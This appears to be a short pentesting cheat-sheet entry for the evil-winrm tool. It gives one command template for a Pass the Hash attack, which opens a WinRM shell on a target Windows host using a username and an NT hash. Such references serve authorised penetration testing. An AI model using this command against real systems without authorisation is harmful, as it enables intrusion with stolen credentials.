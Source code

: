 ```yaml
---
title: EVIL-WINRM
summary: A WinRM shell for pentesting
description: A WinRM shell for pentesting
---
```


**[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)**

## EVIL-WINRM Pass the Hash


 > 
 > **<font color=red>evil-winrm -i</font> \[TARGET_IP\] <font color=red>-u</font> \[myUser\] <font color=red>-H </font>\[myUserNTHASH\]**</br>
 > Pass the Hash attack (NT Hash).
